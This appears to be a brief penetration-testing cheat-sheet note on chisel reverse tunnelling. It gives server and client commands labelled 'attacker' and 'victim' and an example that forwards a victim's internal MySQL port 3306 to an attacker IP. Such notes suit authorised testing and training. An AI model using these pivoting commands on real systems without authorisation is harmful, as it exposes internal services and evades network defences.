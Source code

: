 https://github.com/jpillora/chisel/releases
# Attacker machine
```bash
chisel server -p 8001 --reverse
```
# Victim machine
```batch
.\chisel.exe client $(ATTACKER_IP):8001 R:$(LPORT):127.0.0.1:$(RPORT)
```
i.e. to tunnel a local port of 3306 on the victim machine to the attacker:
```batch
.\chisel.exe client 192.168.45.174:8001 R:3306:127.0.0.1:3306
```
Now the attacker machine can interact with 127.0.0.1:3306 for it to tunnel to the victim.
